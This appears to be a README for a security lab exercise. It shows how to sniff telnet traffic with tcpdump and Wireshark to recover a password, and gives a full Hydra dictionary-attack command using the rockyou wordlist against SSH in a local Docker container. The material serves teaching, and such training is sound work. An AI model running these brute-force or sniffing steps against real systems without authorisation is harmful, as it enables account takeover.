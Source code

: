 ### Attack is the best defense

## ARP spoofing and sniffing unencrypted traffic

# Network Sniffing for Passwords - Security Project

## Introduction

Security is a crucial aspect of any system, and network security plays a significant role. Unencrypted traffic poses a potential risk as it can be intercepted and analyzed by malicious entities. This project focuses on sniffing unencrypted traffic to gather information, emphasizing the importance of securing communication channels.

In this specific scenario, the project involves sniffing telnet traffic to extract sensitive information. The target is an email service, Sendgrid, which offers both secure and unsecured communication methods. The provided script, `user_authenticating_into_server`, replicates the telnet authentication process to demonstrate the vulnerability.

## Project Steps

1. **Telnet Authentication:**
   Execute the provided script `user_authenticating_into_server` locally on your Linux machine, preferably Ubuntu.

2. **Sniffing with Tcpdump:**
   Use the `tcpdump` tool to capture network traffic during the telnet authentication process.

3. **Find the Password:**
   Analyze the captured network traffic to identify the password used in the telnet authentication.

## Execution Instructions

- Ensure you run the script on a Linux machine, such as an Ubuntu vagrant machine. The script may not work on Docker containers or Mac OS.

- Download the script [user_authenticating_into_server](link_to_script) from the repository.

- Execute the script:
  ```bash
  bash user_authenticating_into_server

## Analyze the captured data to find the password used in the telnet authentication with wireshark
![](image.png)

- Let's decode the base64
![](image-1.png)

## Dictionary attack

# Security Testing Setup README

This README provides instructions for setting up Docker and Hydra for security testing purposes. Please ensure that you use these tools responsibly and ethically, adhering to applicable laws and regulations.

### Step 1: Install Docker

```bash
sudo apt install docker.io
```
### Step 2: Install Hydra

```bash
sudo  apt install hydra
```
### Step 3: Run Docker Container
```bash
# Replace 'sylvainkalache/264-1' with the desired Docker image
docker run -p 2222:22 -d -ti sylvainkalache/264–1
```
### Step 4: Download rockyou.txt
```bash
# Navigate to the directory containing 'rockyou.txt'
gzip rockyou.txt
```
### Step 5: Run Another Docker Container
```bash
# Replace 'sylvainkalache/264-1' with the desired Docker image
sudo docker run -p 3333:22 -d -ti sylvainkalache/264-1
```
### Step 6: Use Hydra for Brute-Force Attack
```bash
# Replace 'rockyou.txt' with the appropriate wordlist
# Replace 'sylvain' with the target username
# Replace '127.0.0.1:3333' with the target SSH server address and port
# Adjust the '-t' option for the desired number of parallel threads
sudo hydra -l sylvain -P rockyou.txt ssh://127.0.0.1:3333 -t 4
```

![alt text](image-4.png)

## Note: Ensure ethical and legal use of security testing tools. Unauthorized access attempts are illegal and may have severe consequences.




